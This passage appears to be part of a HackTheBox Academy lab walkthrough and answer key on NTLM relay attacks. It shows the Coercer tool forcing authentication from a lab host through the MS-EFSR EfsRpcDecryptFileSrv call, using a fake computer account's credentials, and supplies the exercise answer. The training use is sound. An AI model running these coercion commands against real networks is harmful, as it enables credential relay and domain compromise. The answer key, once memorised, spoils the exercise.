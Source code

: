 Once the fake computer has been created/added, students can terminate the `ntlmrelayx` process. Right after they will have to utilize `Coercer` in `coerce` mode with the credentials of the fake computer, utilizing the `-t` target host (`172.16.117.30`), the `-l` for the listening host (`172.16.117.30`), and the `--always-continue` option.

Code: shell

```shell
Coercer coerce -t 172.16.117.60 -u 'Academy-Student$' -p '>ld/b:k4ie{T7i0' --always-continue -l 172.16.117.30
```

```shell-session
htb-student@ubuntu:~$ Coercer coerce -t 172.16.117.60 -u 'Academy-Student$' -p '>ld/b:k4ie{T7i0' --always-continue -l 172.16.117.30
       ______
      / ____/___  ___  _____________  _____
     / /   / __ \/ _ \/ ___/ ___/ _ \/ ___/
    / /___/ /_/ /  __/ /  / /__/  __/ /      v2.4-blackhat-edition
    \____/\____/\___/_/   \___/\___/_/       by @podalirius_

[info] Starting coerce mode
[info] Scanning target 172.16.117.60
<SNIP>
```

Once students have initiated the coercion, they will come to see the output containing the named pipes and RPC calls used.

```shell-session
htb-student@ubuntu:~$ Coercer coerce -t 172.16.117.60 -u 'Academy-Student$' -p '>ld/b:k4ie{T7i0' --always-continue -l 172.16.117.30
       ______
      / ____/___  ___  _____________  _____
     / /   / __ \/ _ \/ ___/ ___/ _ \/ ___/
    / /___/ /_/ /  __/ /  / /__/  __/ /      v2.4-blackhat-edition
    \____/\____/\___/_/   \___/\___/_/       by @podalirius_

[info] Starting coerce mode
[info] Scanning target 172.16.117.60
<SNIP>
[+] SMB named pipe '\PIPE\lsass' is accessible!
   [+] Successful bind to interface (c681d488-d850-11d0-8c52-00c04fd90f7e, 1.0)!
      [+] (ERROR_BAD_NETPATH) MS-EFSR──>EfsRpcDecryptFileSrv(FileName='\\172.16.117.30\kIor1apS\file.txt\x00') 
<SNIP>
```

Answer: `EfsRpcDecryptFileSrv`

## Advanced NTLM Relay Attacks Targeting Kerberos

### Question 1

#### "Use the '.searchConnector-ms' file technique to force computers connecting to the shared folder '\\\DC01\Testing' to enable WebDav. After waiting a couple of minutes, submit the computer's IP address that got WebDav enabled."
